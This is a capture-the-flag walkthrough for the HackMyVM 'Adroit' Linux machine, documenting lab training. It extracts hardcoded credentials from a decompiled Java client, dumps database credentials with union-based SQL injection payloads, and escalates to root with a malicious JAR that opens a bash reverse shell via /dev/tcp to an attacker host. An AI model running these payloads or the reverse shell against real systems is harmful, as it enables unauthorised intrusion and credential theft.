

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Adroit</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge hard">HARD</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Hard</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.117</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Adroit** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the host using Nmap to find open ports and services:

```bash
nmap -p- --min-rate 10000 -sC -sV 192.168.56.117
```

#### Open Ports:
```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 pub
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3000/tcp  open  ppp?
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
```

### 2. Anonymous FTP Enumeration
Logging in anonymously to FTP gives us access to three files in `/pub`:

```text
ftp> ls -lah
drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 .
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 ..
-rw-r--r--    1 ftp      ftp          5451 Jan 14  2021 adroitclient.jar
-rw-r--r--    1 ftp      ftp           229 Mar 19  2021 note.txt
-rw-r--r--    1 ftp      ftp         36430 Jan 14  2021 structure.PNG
```

We download the three files. 

#### Analyzing note.txt:
```text
Hi, i am a junior developer and i am pro with cyber security.
Also i am a writer and i created a java socket app to save my ideas.
PS :
if you break something the server will restart within a minute.
Also, one 0 is not 0 but O
```
This indicates the java socket app is running on port 3000. It also hints at a character replacement in one of the strings: `"one 0 is not 0 but O"`.

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Java Decompilation & Reverse Engineering
Decompiling `adroitclient.jar` reveals the following client logic:

```java
package adroit;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.UnsupportedEncodingException;
import java.net.Socket;
import java.net.UnknownHostException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.Scanner;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;

public class AdroitClient {
    private static final String secret = "Sup3rS3cur3Dr0it";
    static ObjectOutputStream os;
    static ObjectInputStream is;
    static Socket socket;

    public static void main(String[] args) throws InvalidKeyException, NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException, UnsupportedEncodingException, NotBoundException, ClassNotFoundException {
        Cryptor crypt = new Cryptor();
        try {
            socket = new Socket("adroit.local", 3000);
            os = new ObjectOutputStream(socket.getOutputStream());
            is = new ObjectInputStream(socket.getInputStream());
            R request = new R();
            Scanner scanner = new Scanner(System.in);
            System.out.println("Enter the username :");
            String userName = crypt.encrypt(secret, scanner.nextLine());
            System.out.println("Enter the password :");
            String password = crypt.encrypt(secret, scanner.nextLine());
            if (userName.equals(crypt.encrypt(secret, "zeus")) && password.equals(crypt.encrypt(secret, "god.thunder.olympus"))) {
                request.setUsername(userName);
                request.setPassword(password);
                System.out.println("Options [ post | get] :");
                String option = scanner.next();
                scanner.nextLine();
                if (option.toLowerCase().equals("post")) {
                    request.setOption("post");
                    System.out.println("Enter your phrase identifier :");
                    String id = crypt.encrypt(secret, scanner.nextLine());
                    System.out.println("Enter your phrase :");
                    String phrase = crypt.encrypt(secret, scanner.nextLine());
                    Idea idea = new Idea();
                    idea.setId(id);
                    idea.setPhrase(phrase);
                    request.setIdea(idea);
                    os.writeObject(request);
                    R responseobj = (R) is.readObject();
                    String response = responseobj.getOption();
                    System.out.println(response);
                } else if (option.toLowerCase().equals("get")) {
                    request.setOption("get");
                    System.out.println("Enter the phrase identifier :");
                    String inp = scanner.nextLine();
                    String id2 = crypt.encrypt(secret, inp);
                    Idea idea2 = new Idea();
                    idea2.setId(id2);
                    request.setIdea(idea2);
                    os.writeObject(request);
                    R responseobj2 = (R) is.readObject();
                    String response2 = responseobj2.getOption();
                    System.out.println(response2);
                } else {
                    System.out.println("Bad option, valid options = get, post");
                }
            } else {
                System.out.print("Wrong username or password");
            }
            scanner.close();
        } catch (UnknownHostException e) {
            e.printStackTrace();
        } catch (RemoteException e2) {
            System.out.println(e2.getMessage());
            e2.printStackTrace();
        } catch (IOException e3) {
            e3.printStackTrace();
        }
    }
}
```

We extract the credentials and AES encryption secret key:
* **Secret Key**: `Sup3rS3cur3Dr0it`
* **Username**: `zeus`
* **Password**: `god.thunder.olympus`

### 2. Interacting with the Custom Socket Application
We map `adroit.local` to our target IP inside `/etc/hosts`:

```text
192.168.56.117 adroit.local
```

We run the client application:
```bash
java -jar adroitclient.jar
```

```text
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [post | get] :
get
Enter the phrase identifier :
1 or 1 = 1
```

### 3. Exploiting SQL Injection
The `get` option is vulnerable to SQL injection. We exploit this to dump the database schema and table structures:

#### Extract Database Name:
```text
1 union select 1,database() -- -
```
Output: `adroit`

#### Extract Tables:
```text
1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema ='adroit' -- -
```
Output: `ideas,users`

#### Extract Columns from `users` table:
```text
1 union select 1,group_concat(column_name) from information_schema.columns where table_name ='users' -- -
```
Output: `id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

#### Extract Credentials:
```text
1 union select 1,group_concat(username,0x3a,password) from users -- -
```
Output: `writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=`

### 4. Decrypting the AES Ciphertext
The user's password is encrypted. We recall the hint: `"one 0 is not 0 but O"`. 
Inside the ciphertext `l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=`, the `0` should be `O`. This gives us:
`l4A+n+p+xSxDcYCl0mgxKrO15+OEC3aOfdrWafSqwpY=`

Using the `Cryptor` class logic from the jar:

```java
import java.io.UnsupportedEncodingException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.Key;
import java.util.Base64;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;

public class Cryptor {
    public String decrypt(String key, String text) throws NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException {
        try {
            Key aesKey = new SecretKeySpec(key.getBytes(), "AES");
            Cipher cipher = Cipher.getInstance("AES");
            cipher.init(2, aesKey);
            String decrypted = new String(cipher.doFinal(Base64.getDecoder().decode(text)));
            return decrypted;
        } catch (InvalidKeyException e) {
            System.out.println("[x] Invalid key length {16 required}");
            return null;
        }
    }
}

public class Main {
    public static void main(String[] args) throws Exception {
        Cryptor cryptor = new Cryptor();
        String password = cryptor.decrypt("Sup3rS3cur3Dr0it", "l4A+n+p+xSxDcYCl0mgxKrO15+OEC3aOfdrWafSqwpY=");
        System.out.println(password);
    }
}
```

Running the decryption yields the cleartext password:
```text
just.write.my.ideas
```

Now we have user credentials: `writer` : `just.write.my.ideas`

### 5. SSH Access & User Flag
We log in via SSH:

```bash
ssh writer@192.168.56.117
```

We retrieve the user flag:
```bash
cat user.txt
```
Output: `61de3a25161dcb2b88b5119457690c3c`

---

## ⚡ Phase 3: Privilege Escalation

### 1. Local Enumeration
We check our sudo permissions:

```bash
sudo -l
```
Output:
```text
Matching Defaults entries for writer on adroit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User writer may run the following commands on adroit:
    (root) /usr/bin/java -jar /tmp/testingmyapp.jar
```

The user `writer` can run `/usr/bin/java -jar /tmp/testingmyapp.jar` as root. Since `/tmp/testingmyapp.jar` does not exist or we can write to `/tmp`, we can hijack this by compiling our own malicious JAR file and placing it at `/tmp/testingmyapp.jar`.

### 2. Constructing Malicious JAR File
We write a simple Java class to execute a reverse shell:

```java
// /tmp/shell.java
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i>& /dev/tcp/192.168.56.102/6666 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

We create a manifest file specifying the entry point:
```text
Main-Class: shell
```

We compile the class and pack it into a JAR file:
```bash
javac shell.java
jar cfm Shell.jar Manifest.txt shell.class
mv Shell.jar /tmp/testingmyapp.jar
```

### 3. Execution & Root Shell
We set up a netcat listener on our local host:
```bash
nc -lnvp 6666
```

We trigger the sudo execution on the target:
```bash
sudo /usr/bin/java -jar /tmp/testingmyapp.jar
```

On our listener, we receive the root connection:
```text
Connection received on 192.168.56.117
id
uid=0(root) gid=0(root) groups=0(root)
```

We read the root flag:
```bash
cat /root/root.txt
```
Output: `017a030885f25af277dd891d0f151845`
